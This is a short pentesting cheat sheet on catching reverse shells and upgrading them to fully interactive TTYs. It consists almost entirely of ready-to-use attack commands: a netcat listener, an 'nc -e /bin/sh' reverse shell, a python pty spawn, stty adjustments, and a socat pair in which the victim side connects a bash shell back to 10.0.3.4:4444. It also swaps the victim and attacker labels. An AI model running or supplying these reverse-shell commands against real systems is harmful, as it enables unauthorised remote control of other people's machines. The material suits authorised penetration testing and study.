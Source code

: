 ### Resources
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

http://pentestmonkey.net/blog/post-exploitation-without-a-tty
***
### Reverse Shells

##### Set up listener on victim LHOST with nc 
    nc -nvlp <open_port>

##### Execute reverse shell on attacker RHOST with nc -e
    nc -e /bin/sh <LHOST> <LPORT>

***

### Upgrade to pseudo interactive shell with python
    python -c 'import pty; pty.spawn("/bin/bash")'

##### Upgrade to fully interactive shell by matching term settings after python shell
* nc listener shell has to start in bash, not zsh


    ctrl-z
    echo $TERM 
    stty -a | grep cols
    stty raw -echo
    fg
    reset
    export SHELL=bash
    export TERM=xterm256-color
    stty rows 38 columns 160


***
### Upgrade to better shell with socat
##### Listener
    socat file: 'tty',raw,echo=0 tcp-listen:4444

##### Victim
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444



